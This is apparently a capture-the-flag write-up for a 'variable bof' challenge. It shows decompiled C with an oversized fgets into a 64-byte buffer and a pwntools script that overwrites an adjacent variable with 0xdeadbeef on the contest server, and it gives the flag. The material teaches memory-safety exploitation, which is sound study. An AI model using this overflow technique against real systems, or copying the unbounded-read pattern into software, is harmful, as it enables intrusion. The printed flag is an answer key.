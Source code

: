 # variable bof
![image](https://user-images.githubusercontent.com/34862954/164884883-ec4ea2ec-b96c-4770-bd14-fd0584328d66.png)

## Approach
Once again, disassembly the file with ghidra to view the pseudocode.
```c

void main(void)

{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_168 [64];
  int local_128;
  char local_118 [264];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  banner();
  local_128 = 0;
  fgets(local_168,0x100,stdin);
  if (local_128 == -0x21524111) {
    __stream = fopen("./flag.txt","r");
    fgets(local_118,0x100,__stream);
    green();
    printf("[*] Flag: %s\n",local_118);
    reset();
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  green();
  puts("[!] Flag has\'nt changed try again");
  reset();
                    /* WARNING: Subroutine does not return */
  exit(1);
}


```

Hmmmm.<br>
Here we have to make the value of `local_128` as `-0x21524111`\
Wait what's that? Negative hex?\
Well if you convert that hex into decimal and then convert it to hex by 2's compliment\
It's `0xdeadbeef` 🔥

Now how can make that `local_128` equal to `0xdeadbeef`?!<br>
We need to know that the stack grows downward<br>
![image](https://user-images.githubusercontent.com/34862954/164883524-0d5bc8f8-9613-4e18-bbd1-1fc260d963c9.png)

So we need the bufferflow attack like this. first 64 A's then deadbeef but in reverse order

![image](https://user-images.githubusercontent.com/34862954/164884035-e9b0b1c2-d862-4953-bfb2-b754e84df1b8.png)

Now our attack string is `'A'*64 + '\xEF\xBE\xAD\xDE'`

I used pwntools to make the attack as manually copying the string won't work as it may hv some non printable characters.

```python
from pwn import *


conn = remote('wannahack.copsiitbhu.co.in',2420)
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()

#just dont forget this '\n' at the end 
payload = 'A'*64 +'\xEF\xBE\xAD\xDE' + '\n' 

conn.send(payload)
print(conn.recvline())

conn.close()
```

This will do the work. Yeah, pwntools are simply awesome!!
![image](https://user-images.githubusercontent.com/34862954/164884849-de65b57a-9fc5-42b7-9424-f620b2b9bf5a.png)
Yay u got the flag.

Flag: `wannahack{H0w_d1d_y0u_c5@ng3_M3_!!!!!}`



